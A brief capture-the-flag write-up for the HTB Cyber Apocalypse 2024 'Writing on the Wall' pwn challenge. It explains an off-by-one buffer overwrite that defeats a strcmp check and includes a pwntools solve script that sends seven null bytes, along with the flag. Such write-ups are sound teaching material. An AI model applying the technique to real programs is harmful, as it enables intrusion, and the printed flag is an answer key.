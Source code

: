 # Writing on the Wall - pwn
#### HTB Cyber Apocalypse 2024

#off-by-one

You overwrite at localx, so there will be one byte where you can overwrite into the other variable. So if you set your first by to 0, and the last byte to 0, such that both buffers start wth a null byte. Then when you strcmp it will evalutate to the same string.

## Solve Script
```
from pwn import *
from ctfkit.bp import *

context.binary = './writing_on_the_wall'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

def main():
  proc = get_process()

  data = b'\x00' * 7
  proc.sendline(data)
  proc.interactive()

if __name__ == '__main__':
  parse_args()
  main()
```
##### Flag: HTB{3v3ryth1ng_15_r34d4bl3}